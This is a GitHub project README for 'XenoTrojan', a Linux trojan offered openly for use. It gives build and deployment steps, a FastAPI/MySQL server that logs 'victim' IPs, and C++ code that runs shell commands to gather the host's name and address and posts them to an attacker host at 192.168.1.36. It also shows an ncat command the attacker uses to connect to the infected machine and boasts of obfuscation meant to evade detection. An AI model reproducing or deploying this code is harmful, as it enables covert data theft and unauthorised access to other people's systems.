

# XenoTrojan


**XenoTrojan is a sophisticated trojan project designed for deploying APIs on VPS instances. It efficiently collects victim API data and securely stores it in a MySQL database using FastAPI for rapid API handling.**

Built in C++ to ensure compatibility across all Linux operating systems, XenoTrojan leverages its design for robust and stealthy operation. The trojan's primary function involves:

- **API Deployment:** It initiates FastAPI servers on VPS instances, facilitating fast and secure data transmission from victim APIs to designated MySQL databases.
  
- **Data Collection:** XenoTrojan retrieves vital information such as hostname and IP address from victim systems using system commands, ensuring minimal footprint and efficient data extraction.

- **Security and Efficiency:** By utilizing FastAPI, XenoTrojan ensures swift API handling with minimal latency, making it ideal for real-time data interception and transmission.

The trojan's design in C++ enables it to evade detection and resist reverse engineering, enhancing its effectiveness as a covert data collection tool on Linux platforms.


## Table of Contents

1. [Introduction](#introduction)
2. [Folder Structure](#folder-structure)
3. [API Deployment](#api-deployment)
4. [Database Setup](#database-setup)
5. [Compiling XenoTrojan](#compiling-xenotrojan)
6. [Running XenoTrojan](#running-xenotrojan)
7. [API Lib Requirements](#api-lib-requirements)
8. [Additional Notes](#additional-notes)
9. [Contributing](#Contributing)
10.[Credits](#Credits)

## Introduction

XenoTrojan is developed to operate stealthily on victim systems, leveraging FastAPI to manage and transmit collected API data efficiently to a central MySQL server. It includes advanced features like obfuscation tools (`dcode`) to enhance security and prevent reverse engineering.

## Folder Structure

```
├── API
│   ├── APP
│   │   ├── config.cfg
│   │   ├── main.py
│   │   ├── requirements.txt
│   │   └── runs.txt
├── db
│   └── db.sql
├── ELF
│   └── XenoTrojan
└── cpp
    ├── api-get.txt
    └── XenoTrojan.cpp
```

## API Deployment

To deploy the FastAPI server on your VPS, execute the following command:

```bash
nohup uvicorn main:app --host 0.0.0.0 --port 3333 > fastapi.log 2>&1 &
```


This command starts the FastAPI server to handle incoming API requests from deployed trojans.

## Database Setup

Ensure your MySQL database is set up with the following schema:

```sql
CREATE TABLE `victim` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `ip` varchar(45) NOT NULL,
  `timestamp_column` timestamp NOT NULL DEFAULT current_timestamp(),
  PRIMARY KEY (`id`)
);
```


Update the `config.cfg.example` file with your database credentials:

```bash
cp .\config.cfg.example .\config.cfg
```

Edit the following variables in the `config.cfg` file to match your MySQL database configuration:

```
DB_HOST=localhost
DB_USER=root
DB_PASSWORD=
DB_DATABASE=
```

## Compiling XenoTrojan

Before compiling, install the required libraries:

```bash
sudo apt update
sudo apt install libcurl4-openssl-dev
```

Compile `XenoTrojan.cpp` to an ELF executable:

```bash
g++ XenoTrojan.cpp -o XenoTrojan -lcurl
```

## Running XenoTrojan

Run the compiled XenoTrojan ELF executable:

```bash
./XenoTrojan
```


Then the attacker run this command to get access:
```bash
PS C:\Users\user> ncat 192.168.1.36 3993

```

XenoTrojan will stealthily collect victim API data and transmit it securely to your FastAPI server.

## API Lib Requirements

Ensure the following Python libraries are installed for your FastAPI deployment:

```
fastapi
uvicorn
mysql-connector-python
python-dotenv
```

Install these libraries using pip:

```bash
pip install -r requirements.txt
```

## Additional Notes

XenoTrojan utilizes advanced techniques like obfuscation (`dcode`) to complicate reverse engineering attempts, ensuring the security and resilience of your deployment.

## API Script Explanation

The `main.py` script in the `APP` directory handles incoming API requests using FastAPI. It connects to a MySQL database specified in the `config.cfg` file to store victim IP addresses.

```python
from fastapi import FastAPI, HTTPException
from pydantic import BaseModel
import mysql.connector
from dotenv import load_dotenv
import os

app = FastAPI()

class IPRecord(BaseModel):
    ip: str

load_dotenv("config.cfg")

DB_HOST = os.getenv('DB_HOST')
DB_USER = os.getenv('DB_USER')
DB_PASSWORD = os.getenv('DB_PASSWORD')
DB_DATABASE = os.getenv('DB_DATABASE')

@app.post("/register_ip/")
async def register_ip(record: IPRecord):
    try:
        connection = mysql.connector.connect(
            host=DB_HOST,
            user=DB_USER,
            password=DB_PASSWORD,
            database=DB_DATABASE
        )
        cursor = connection.cursor()
        query = "INSERT INTO victim (ip) VALUES (%s)"
        cursor.execute(query, (record.ip,))
        connection.commit()
        cursor.close()
        connection.close()
    except mysql.connector.Error as err:
        pass

if __name__ == "__main__":
    import uvicorn
    uvicorn.run(app, host="0.0.0.0", port=3333)
```

## Main Part of XenoTrojan C++ Code Explanation

The main functionality of `XenoTrojan.cpp` involves obtaining the hostname and IP address of the victim system and sending this data to the FastAPI server via HTTP POST request with JSON payload.

```cpp
void c() {
    string hostname = exec("hostname");
    hostname.erase(remove(hostname.begin(), hostname.end(), '\n'), hostname.end());

    string cmd = "host -t A " + hostname + " | grep 'has address' | cut -d ' ' -f 4";
    string ip = exec(cmd.c_str());
    ip.erase(remove(ip.begin(), ip.end(), '\n'), ip.end());

    string url = "http://192.168.1.36:3333/register_ip/";  

    string data = "{\"hostname\": \"" + hostname + "\", \"ip\": \"" + ip + "\"}";

    CURL *curl;
    CURLcode res;

    curl_global_init(CURL_GLOBAL_DEFAULT);
    curl = curl_easy_init();
    if(curl) {
        struct curl_slist *headers = NULL;
        headers = curl_slist_append(headers, "Content-Type: application/json");

        curl_easy_setopt(curl, CURLOPT_URL, url.c_str());
        curl_easy_setopt(curl, CURLOPT_POSTFIELDS, data.c_str());
        curl_easy_setopt(curl, CURLOPT_HTTPHEADER, headers);

        res = curl_easy_perform(curl);
        if(res != CURLE_OK) {
            fprintf(stderr, "curl_easy_perform() failed: %s\n", curl_easy_strerror(res));
        }

        curl_easy_cleanup(curl);
        curl_slist_free_all(headers);
    }

    curl_global_cleanup();
}

```

This function fetches the hostname and corresponding IP address, constructs a JSON payload, and sends it to the FastAPI server using libcurl in C++. Adjustments to this function can enhance or modify the data collection and transmission capabilities of XenoTrojan.


## Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or bug fixes.

## Credits
[qays3](https://github.com/qays3) ([Support qays](https://buymeacoffee.com/hidden))
